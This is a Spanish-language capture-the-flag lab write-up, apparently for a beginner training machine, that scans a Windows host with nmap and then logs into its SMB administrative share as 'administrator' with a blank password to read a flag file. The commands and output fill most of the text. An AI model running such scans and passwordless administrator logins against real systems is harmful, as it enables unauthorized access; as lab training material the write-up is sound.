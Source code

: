 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.189.148

PING 10.129.189.148 (10.129.189.148) 56(84) bytes of data.
64 bytes from 10.129.189.148: icmp_seq=1 ttl=127 time=163 ms

--- 10.129.189.148 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 163.328/163.328/163.328/0.000 ms
```

> Sistema operativo:  **Windows**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv 10.129.189.148 -oG openPorts

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 135,139,445 -sCV 10.129.189.148 -oN targeted

PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2024-03-12T21:44:34
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

| Puerto | Servicio     | Versión                       |
| ------ | ------------ | ----------------------------- |
| 135    | msrpc        | Microsoft Windows RPC         |
| 139    | netbios-ssn  | Microsoft Windows netbios-ssn |
| 445    | microsoft-ds | ?                             |

🗹 Listar los recursos compartidos mediante el servicio SMB con el usuario `administrator` y sin proporcionar contraseña:

```shell
smbclient -L //10.129.189.148 -U administrator
Password for [WORKGROUP\administrator]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

🗹 Acceder al servicio SMB:

```shell
smbclient //10.129.189.148/C$ -U administrator
Password for [WORKGROUP\administrator]:
Try "help" to get a list of possible commands.
cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Apr 22 04:16:03 2021
  ..                                 DR        0  Thu Apr 22 04:16:03 2021
  desktop.ini                       AHS      282  Wed Apr 21 12:23:32 2021
  flag.txt                            A       32  Fri Apr 23 06:39:00 2021

		3774463 blocks of size 4096. 1156617 blocks available
smb: \Users\Administrator\Desktop\> more flag.txt
```
## Flag

La flag se encuentra en el directorio `C:\Users\Administrator\Desktop`.